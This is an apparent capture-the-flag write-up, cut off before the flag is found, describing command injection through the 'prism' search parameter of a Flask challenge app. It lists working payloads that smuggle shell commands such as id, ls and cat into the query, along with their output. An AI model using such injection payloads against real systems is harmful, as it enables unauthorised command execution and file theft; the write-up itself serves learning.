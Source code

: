 This one allows us to search for a *prism*, which is an `objectClass`

The gist is that disrupt the execution and injection our own commands, i.e. `/search?prism='`

There are characters that are not allowed, such as `;`.

We eventually found that we could gain command execution with:

```
/search?prism=b*'&id #'
```
```bash
uid=1001(prism) gid=1001(prism) groups=1001(prism)
```

The ` #` is key, since we can we can block out the rest of the line, gaining more control over whether the command injection fails.

(Actually we could just `/search?prism='&id #'`, but it is easier to ensure that the query is happy when trying to find the right payload!)


We can begin to find the flag!


```bash
b*'&cat app.py #'
```
Gives the the source code, but no flag there.

```py
import re
from flask import Flask, render_template, render_template_string, request
....
....
    return render_template('login.html')
```

Lets find the flag:

```bash
b*'&ls #'
```

```
__pycache__
add-prism-schema.ldif
app.py
base.ldif
entrypoint.sh
hint
requirements.txt
static
templates
```

Then we just 

```bash
b*'&cat entrypoint.sh #'
```
